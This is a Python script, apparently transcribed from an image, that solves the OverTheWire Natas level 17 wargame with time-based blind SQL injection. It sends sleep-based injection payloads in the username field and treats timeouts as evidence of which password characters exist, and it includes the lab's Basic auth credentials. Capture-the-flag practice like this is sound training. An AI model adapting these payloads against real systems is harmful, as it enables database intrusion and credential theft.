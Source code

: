 import requests
import time

# Get start time
start_time = time.time()
# All possible characters
allChars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
# Characters used
usedChars = ''
# Final Password
password = ''
# Our target URL
target = "http://natas17.natas.labs.overthewire.org"
headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101',
    'Authorization': 'Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==',
}


def send_query(query):
    payload = {'username': query}
    print("Payload: " + str(payload))
    response = requests.post(target + '/index.php?', data=payload, headers=headers, timeout=1)
    return response


r = requests.get(target, headers=headers)
if r.status_code != requests.codes.ok:
    raise ValueError('Couldn\'t connect to target :(')
else:
    print('Target reachable. Starting character parsing...')

# figure out which chars are needed
print("Getting list of characters used...")
for c in allChars:
    print("Trying Character: " + c)
    try:
        resp = send_query('natas18" and if(password LIKE BINARY "%'+c+'%", sleep(5), null)#')
    except requests.exceptions.Timeout:
        # If we got a timeout, the character exists
        usedChars += c
        print("Character found: " + c)
print("Characters used: " + usedChars)
